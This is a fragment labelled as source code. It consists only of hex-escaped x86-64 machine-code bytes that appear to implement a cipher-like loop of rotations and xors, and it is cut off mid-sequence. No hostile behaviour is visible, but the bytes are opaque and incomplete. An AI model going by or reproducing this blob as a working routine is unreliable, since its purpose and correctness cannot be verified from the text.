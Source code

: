 \x50\x46\x8D\x04\x21\x4C\x8D\x4C\x24\x5C\x8D\x34\x02\x44\x89\x03\x4D\x89\xFA\x89\x73\x04\x44\x89\xC1\x44\x89\xC2\x49\x83\xC1\x30\xC1\xE9\x04\x31\xF2\x83\xE1\x1F\xD3\xC2\x41\x2B\x51\xCC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xD0\x44\x89\xC1\x44\x89\xC6\xC1\xE9\x04\x31\xD6\x83\xE1\x1F\xD3\xC6\x41\x2B\x71\xD4\x41\x31\xF0\x89\xF1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xD8\x44\x89\xC1\x44\x89\xC2\xC1\xE9\x04\x31\xF2\x83\xE1\x1F\xD3\xC2\x41\x2B\x51\xDC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xE0\x44\x89\xC1\x44\x89\xC6\xC1\xE9\x04\x31\xD6\x83\xE1\x1F\xD3\xC6\x41\x2B\x71\xE4\x41\x31\xF0\x89\xF1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xE8\x44\x89\xC1\x44\x89\xC2\xC1\xE9\x04\x31\xF2\x83\xE1\x1F\xD3\xC2\x41\x2B\x51\xEC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xF0\x44\x89\xC1\x44\x89\xC6\xC1\xE9\x04\x31\xD6\x83\xE1\x1F\xD3\xC6\x41\x2B\x71\xF4\x41\x31\xF0\x89\xF1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x45\x03\x41\xF8\x49\xFF\xCA\x0F\x85\x0F\xFF\xFF\xFF\x44\x89\x03\x89\x73\x04\x44\x8B\x03\x44\x8B\x4B\x04\x41\x8D\x46\xFF\x41\xFF\xC5\x48\x83\xC3\x08\x44\x89\x44\x24\x20\x41\x39\xC5\x44\x89\x4C\x24\x24\x0F\x82\xA0\xFD\xFF\xFF\x44\x8B\x7C\x24\x28\x41\xBA\x02\x00\x00\x00\xEB\x05\x44\x8B\x64\x24\x54\x45\x85\xFF\x4C\x8B\xAC\x24\xD8\x00\x00\x00\x74\x2C\x48\x8D\x44\x24\x20\x48\x89\xDF\x48\x8D\x4C\x24\x20\x48\x29\xC7\x44\x89\xFA\x0F\xB6\x04\x0F\x48\xFF\xC1\x30\x41\xFF\x48\xFF\xCA\x75\xF1\x44\x8B\x4C\x24\x24\x44\x8B\x44\x24\x20\x41\x83\xFE\x02\x0F\x86\xFF\x00\x00\x00\x44\x03\x4C\x24\x50\x48\x8D\x74\x24\x5C\x45\x01\xE0\x44\x89\xC1\x44\x89\xC2\x48\x83\xC6\x30\xC1\xE9\x04\x44\x31\xCA\x83\xE1\x1F\xD3\xC2\x2B\x56\xCC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xD0\x44\x89\xC1\x44\x89\xC7\xC1\xE9\x04\x31\xD7\x83\xE1\x1F\xD3\xC7\x2B\x7E\xD4\x41\x31\xF8\x89\xF9\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xD8\x44\x89\xC1\x44\x89\xC2\xC1\xE9\x04\x31\xFA\x83\xE1\x1F\xD3\xC2\x2B\x56\xDC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xE0\x44\x89\xC1\x44\x89\xC7\xC1\xE9\x04\x31\xD7\x83\xE1\x1F\xD3\xC7\x2B\x7E\xE4\x41\x31\xF8\x89\xF9\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xE8\x44\x89\xC1\x44\x89\xC2\xC1\xE9\x04\x31\xFA\x83\xE1\x1F\xD3\xC2\x2B\x56\xEC\x41\x31\xD0\x89\xD1\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xF0\x44\x89\xC1\x45\x89\xC1\xC1\xE9\x04\x41\x31\xD1\x83\xE1\x1F\x41\xD3\xC1\x44\x2B\x4E\xF4\x45\x31\xC8\x44\x89\xC9\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC0\x44\x03\x46\xF8\x49\xFF\xCA\x0F\x85\x10\xFF\xFF\xFF\xEB\x51\x41\x83\xFE\x01\x75\x0D\x8B\x03\x89\x44\x24\x20\x8B\x43\x04\x89\x44\x24\x24\x48\x8D\x44\x24\x20\x48\x89\xE9\x66\xC7\x45\x10\x00\x00\x89\x45\x12\x48\x8D\x44\x24\x20\x66\xC7\x45\x16\x01\x00\x48\xC1\xE8\x20\x66\xC7\x45\x3E\x00\x00\x89\x45\x5C\xE8\x7D\xF9\xFF\xFF\x44\x8B\x4C\x24\x24\x44\x8B\x44\x24\x20\x66\xC7\x45\x16\x00\x00\x4C\x8B\xA4\x24\xE0\x00\x00\x00\x48\x8B\xAC\x24\xF8\x00\x00\x00\x41\x83\xFE\x01\x4C\x8B\xB4\x24\xD0\x00\x00\x00\x76\x1B\x45\x85\xFF\x74\x0C\x48\x8D\x73\xF8\x44\x89\xF9\x48\x89\xDF\xF3\xA4\x44\x89\x43\xF8\x44\x89\x4B\xFC\xEB\x07\x44\x89\x03\x44\x89\x4B\x04\x4C\x8B\xBC\x24\xC8\x00\x00\x00\x48\x8B\xBC\x24\x08\x01\x00\x00\x48\x8B\xB4\x24\x00\x01\x00\x00\x48\x8B\x9C\x24\xF0\x00\x00\x00\x48\x81\xC4\xE8\x00\x00\x00\xC3\x48\x89\xE0\x48\x81\xEC\xF8\x00\x00\x00\x48\x89\x58\x08\x48\x89\x68\x10\x48\x89\x70\x18\x48\x89\x78\x20\x4C\x89\x60\xF8\x4C\x89\x68\xF0\x4C\x89\x70\xE8\x4C\x89\x78\xE0\x48\x89\xCB\x8D\x4A\x07\x89\xD0\xBA\x08\x00\x00\x00\xC1\xE9\x03\x83\xE0\x07\x4C\x89\xC7\x0F\x44\xC2\x45\x31\xFF\x83\xF9\x01\x89\x4C\x24\x30\x44\x8D\x62\x04\x44\x89\x7C\x24\x2C\x44\x89\x7C\x24\x34\x44\x89\x7C\x24\x28\x45\x89\xFE\x89\x44\x24\x38\x0F\x86\x9F\x01\x00\x00\x83\xC1\xFE\x44\x89\xFE\x89\x4C\x24\x20\x0F\x84\x8F\x01\x00\x00\x48\x8B\x44\x24\x40\x44\x8B\x6C\x24\x64\x8B\x6C\x24\x60\x85\xF6\x44\x8B\x03\x44\x8B\x73\x04\x45\x89\xC7\x44\x89\x44\x24\x28\x0F\x85\xEE\x00\x00\x00\x48\x89\x44\x24\x50\x48\x8D\x44\x24\x48\x66\x89\x77\x10\x48\x8B\x0B\x89\x47\x12\x48\x8D\x44\x24\x48\x48\xC1\xE8\x20\x48\x89\x4C\x24\x48\x48\x89\xF9\x66\xC7\x47\x16\x02\x00\x66\x89\x77\x3E\x89\x47\x5C\xE8\x0E\xFA\xFF\xFF\x48\x8B\x44\x24\x48\x4C\x8D\x44\x24\x64\x48\x89\x03\x48\x8B\x44\x24\x50\x44\x8D\x56\x05\x48\x89\x44\x24\x40\x44\x8B\x4C\x24\x44\x66\x89\x77\x16\x89\x44\x24\x60\x41\x8B\x48\xFC\x49\x83\xC0\x14\x42\x8D\x14\x09\x83\xE1\x1F\x41\x89\x50\xEC\x89\xC2\xD3\xCA\x31\x54\x24\x64\x41\x8B\x48\xEC\x42\x8D\x14\x09\x83\xE1\x1F\x41\x89\x50\xF0\x89\xC2\xD3\xCA\x31\x54\x24\x64\x41\x8B\x48\xF0\x42\x8D\x14\x09\x83\xE1\x1F\x41\x89\x50\xF4\x89\xC2\xD3\xCA\x31\x54\x24\x64\x41\x8B\x48\xF4\x42\x8D\x14\x09\x83\xE1\x1F\x41\x89\x50\xF8\x89\xC2\xD3\xCA\x31\x54\x24\x64\x41\x8B\x48\xF8\x42\x8D\x14\x09\x83\xE1\x1F\x41\x89\x50\xFC\x44\x8B\x6C\x24\x64\x89\xC2\xD3\xCA\x41\x31\xD5\x49\xFF\xCA\x44\x89\x6C\x24\x64\x0F\x85\x77\xFF\xFF\xFF\x8B\x6C\x24\x60\xEB\x4B\x45\x89\xE3\x45\x89\xF1\x4C\x8D\x94\x24\xC0\x00\x00\x00\x45\x2B\x42\x04\x44\x89\xC9\x49\x83\xEA\x08\xC1\xE9\x07\x83\xE1\x1F\x41\xD3\xC8\x45\x31\xC8\x45\x03\x4A\x08\x44\x89\xC1\xC1\xE9\x04\x83\xE1\x1F\x41\xD3\xC9\x45\x31\xC1\x41\x83\xC3\xFF\x75\xD0\x45\x29\xE8\x41\x29\xE9\x44\x89\x4B\x04\x44\x89\x03\x8B\x4C\x24\x34\xFF\xC6\x48\x83\xC3\x08\x31\x4B\xF8\x8B\x4C\x24\x2C\x44\x89\x7C\x24\x34\x31\x4B\xFC\x3B\x74\x24\x20\x44\x89\x74\x24\x2C\x0F\x82\x88\xFE\xFF\xFF\x8B\x44\x24\x38\x45\x31\xFF\xEB\x09\x44\x8B\x6C\x24\x64\x8B\x6C\x24\x60\x85\xC0\x44\x89\x7C\x24\x20\x44\x89\xFE\x44\x89\x7C\x24\x24\x74\x1A\x48\x8D\x53\x08\x48\x8D\x4C\x24\x20\x41\x89\xC0\xE8\xB8\xED\xFF\xFF\x8B\x74\x24\x24\x44\x8B\x7C\x24\x20\x44\x8B\x5C\x24\x30\x41\x83\xFB\x01\x75\x32\x48\x89\xD8\x48\x89\xF9\x66\xC7\x47\x10\x00\x00\x48\xC1\xE8\x20\x66\xC7\x47\x16\x01\x00\x66\xC7\x47\x3E\x00\x00\x89\x47\x5C\x89\x5F\x12\xE8\x75\xF8\xFF\xFF\x66\xC7\x47\x16\x00\x00\xE9\x29\x01\x00\x00\x41\x83\xFB\x02\x75\x34\x48\x89\xD8\x48\x89\xF9\x66\xC7\x47\x10